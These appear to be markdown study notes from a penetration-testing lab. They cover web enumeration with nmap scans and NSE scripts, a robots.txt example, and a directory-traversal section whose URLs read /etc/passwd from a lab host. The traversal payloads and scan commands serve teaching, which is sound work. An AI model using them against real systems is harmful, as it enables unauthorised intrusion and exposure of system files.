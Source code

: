 # WEB ENUMERATION STEPS
	
- The goal of web enumeration is to find out the existing webpages and webdirectories
	
1. Host Discovery (ping sweep)
2. Host Enumeration (port scan)
	`nmap -Pn -T5 x.x.x.x -p-`
	
3. Service enumeration (-sV|banner.nse)
	`nmap -Pn -T5 x.x.x.x -sV -p <ports>`
	`nmap -Pn -T5 x.x.x.x --script=banner.nse -p <ports>`
	
4. Web Enumeration
	`nmap -Pn -T5 -sT -p 80 --script http-enum.nse x.x.x.x`
	`nmap -Pn -T5 -sT -p 80 --script http-sql-injection.nse x.x.x.x`
	`nmap -Pn -T5 -sT -p 80 --script http-robots.txt.nse x.x.x.x`
	
	^ robots.txt finds webpages you can navigate to outside of the normal means
	
	So what actually is the robots.txt file?
	- Robots.txt tells webcrawlers what **can** and **cannot** be indexed
	
Example: ((syntax will suck in .md format))
```
	User-agent: *
	Allow: /uploads
	Allow: /chat
	Allow: /cmdinjection
	Allow: /java
	Allow: /path
	Allow: /webexampe
	Disallow: /cross
	Disallow: /
``` 

	User-agent: Googlebot
	Disallow: /


	User-agent: Baiduspider
	Disallow: /
			
# 5. Web Exploitation

### a. Directory Traversal -  Information
	
http://10.50.34.125/path/pathdemo.php
	
../../../../../../../../../../../etc/passwd
- http://10.50.34.125/path/pathdemo.php?
- http://10.50.34.125/path/pathdemo.php?myfile
- http://10.50.34.125/path/pathdemo.php?myfile=
- http://10.50.34.125/path/pathdemo.php?myfile=../../../../../../../../../../../etc/passwd
- http://10.50.34.125/path/pathdemo.php?myfile=../../../../../../../../../../../etc/passwd&
- http://10.50.34.125/path/pathdemo.php?myfile=../../../../../../../../../../../etc/passwd&submit=File+look+up		##also works
